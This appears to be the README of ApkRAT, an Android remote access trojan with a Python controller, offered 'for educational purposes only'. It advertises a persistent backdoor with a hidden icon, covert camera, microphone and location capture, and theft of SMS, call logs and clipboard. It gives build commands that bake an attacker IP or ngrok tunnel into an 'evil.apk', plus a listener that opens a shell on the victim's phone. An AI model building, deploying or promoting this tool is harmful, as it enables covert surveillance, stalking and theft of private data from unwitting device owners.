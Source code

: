 **Disclaimer** : This software is meant for educational purposes only. I'm not responsible for any malicious use of the app.
# ApkRAT 

Twitter Follow(https://twitter.com/Enpazturk)
GitHub followers(https://github.com/MrDeepWolf/)

ApkRAT is a tool designed to give the control of the android system remotely and retrieve informations from it. apkrat is a client/server application developed in Java Android for the client side and the Server is in Python.

##### ApkRAT will work on device from Android 4.1 (Jelly Bean) to Android 9.0 (Oreo) (API 16 to API 28)

> apkRAT also works on Android 10 (Q) but some of the interpreter command will be unstable. 


![ApkRAT]("ApkRAT in action")
## Features of ApkRAT 
* Full persistent backdoor
* Invisible icon on install
* Light weight apk which runs 24*7 in background
* App starts automatically on boot up 
* Can record audio, video, take picture from both camera
* Browse call logs and SMS logs
* Get current location, sim card details ,ip, mac address of the device


## Prerequisites
ApkRAT requires Python3 and JAVA (or Android Studio)

## Installation
```
git clone https://github.com/MrDeepWolf/apkrat.git
cd ApkRAT
pip install -r requirements.txt
```
#### Note: 
While cloning the repository using Git bash on Windows, you may get the following error:
> error: unable to create file \<filename>: Filename too long

This is because the Git has a limit of 4096 characters for a filename, except on Windows when Git is compiled with msys. It uses an older version of the Windows API and there's a limit of 260 characters for a filename. 

You can circumvent this by setting `core.longpaths` to `true`.

> git config --system core.longpaths true

You must run Git bash with administrator privileges. 

## Usage (Windows and Linux)

* To get the control panel of the app dial `*#*#1337#*#*` (For now it has only two options `Restart Activity` and `Uninstall`)
> Note: In order to use this feature in some devices you need to enable the option `display pop-up windows running in background` from the settings.

### Available Modes
* `--build` - for building the android apk 
* `--ngrok` - for using ngrok tunnel (over the internet)
* `--shell` - getting an interactive shell of the device

### `build` mode

```
Usage:
  python3 apkrat.py --build --ngrok [flags]
  Flags:
    -p, --port              Attacker port number (optional by default its set to 8000)
    -o, --output            Name for the apk file (optional by default its set to "deepwolf.apk")
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

```
Usage:
  python3 apkrat.py --build [flags]
  Flags:
    -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

Or you can manually build the apk by importing [Android Code](Android_Code) folder to Android Studio and changing the IP address and port number in [config.java](Android_Code/app/src/main/java/com/example/reverseshell2/config.java) file and then you can generate the signed apk from `Android Studio -> Build -> Generate Signed APK(s)`
### `shell` mode
```
Usage:
  python3 apkrat.py --shell [flags]
  Flags:
    -i, --ip                Listner IP address
    -p, --port              Listner port number
```
After running the `shell` mode you will get an interpreter of the device  

Commands which can run on the interpreter
```
    deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a sh shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
    getLocation                --> return the current location of the device
    getIP                      --> returns the ip of the device
    getSimDetails              --> returns the details of all sim of the device
    clear                      --> clears the screen
    getClipData                --> return the current saved text from the clipboard
    getMACAddress              --> returns the mac address of the device
    exit                       --> exit the interpreter
```
In the sh shell there are some sub commands
```
    get [full_file_path]        --> donwloads the file to the local machine (file size upto 15mb)
    put [filename]              --> uploads the file to the android device
```

## Examples

* To build the apk using ngrok which will also set the listner:
```python3 apkrat.py --build --ngrok -o evil.apk```

* To build the apk using desired ip and port:
```python3 apkrat.py --build -i 192.169.x.x -p 8000 -o evil.apk```

* To get the interpreter:
```python3 apkrat.py --shell -i 0.0.0.0 -p 8000```

## Interpreter Examples
* Generating APK

## License
Apkrat is licensed under MIT license take a look at the [LICENSE](LICENSE) for more information.


